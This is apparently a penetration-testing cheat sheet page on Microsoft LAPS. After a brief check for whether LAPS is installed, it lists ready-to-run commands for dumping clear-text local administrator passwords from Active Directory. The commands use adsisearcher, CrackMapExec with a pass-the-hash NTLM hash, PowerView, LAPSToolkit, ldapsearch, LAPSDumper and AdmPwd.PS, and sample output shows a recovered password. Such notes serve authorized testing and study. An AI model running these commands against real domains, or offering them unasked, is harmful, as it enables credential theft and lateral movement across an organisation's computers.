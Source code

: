 # LAPS Passwords

{% hint style="info" %}
Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
{% endhint %}

## **Determine if LAPS is installed**

```
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

## **Extract LAPS password**

{% hint style="info" %}
The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
{% endhint %}

### adsisearcher (native binary on Windows 8+)

```
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
```

### CrackMapExec

```
crackmapexec smb 10.10.10.10 -u user -H 8846f7eaee8fb117ad06bdd830b7586c -M laps
```

### Powerview

```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```

### LAPSToolkit&#x20;

#### &#x20;[https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

```
$ Get-LAPSComputers
ComputerName                Password                                 Expiration         
------------                --------                                 ----------         
exmaple.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

$ Find-LAPSDelegatedGroups
$ Find-AdmPwdExtendedRights
```

### ldapsearch

```
ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
```

### LAPSDumper&#x20;

****[ **https://github.com/n00py/LAPSDumper**](https://github.com/n00py/LAPSDumper)****

```
python laps.py -u user -p password -d domain.local
python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### Powershell AdmPwd.PS

```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
